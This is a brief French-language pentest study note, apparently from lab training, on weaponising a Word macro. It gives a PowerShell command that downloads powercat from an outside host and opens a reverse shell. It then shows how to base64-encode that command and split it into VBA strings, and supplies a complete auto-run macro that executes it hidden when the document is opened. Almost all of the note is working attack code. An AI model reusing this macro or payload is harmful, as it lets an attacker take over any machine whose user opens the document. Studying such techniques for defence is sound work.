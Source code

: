 docx permet pas de sauvegarder macros
doc ou docm oui

view->macros
Donner un nom, choisir “macros in” à notre document puis create

On veut rouler du code powershell ex:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.239/windows/powercat.ps1');powercat -c 192.168.45.239 -p 4444 -e powershell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Il faut l'encoder en **base64 UTF-16LE**, attention, Linux utilise UTF-8.
VBA a aussi une limite de 250 charactères par string litéraire
Écrire du code Python pour séparer en groupes et concaténer:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ vb
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Auto_Open()
    MyMacro
End Sub

Sub Workbook_Open()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADQANQAuADIAMwA5AC8AdwBpAG4AZABvAHcAc"
	Str = Str + "wAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB"
	Str = Str + "3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgA0A"
	Str = Str + "DUALgAyADMAOQAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABwAG8"
	Str = Str + "AdwBlAHIAcwBoAGUAbABsAA=="

    CreateObject("Wscript.Shell").Run Str
End Sub
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Seulement avoir un utilisateur ouvrir le document
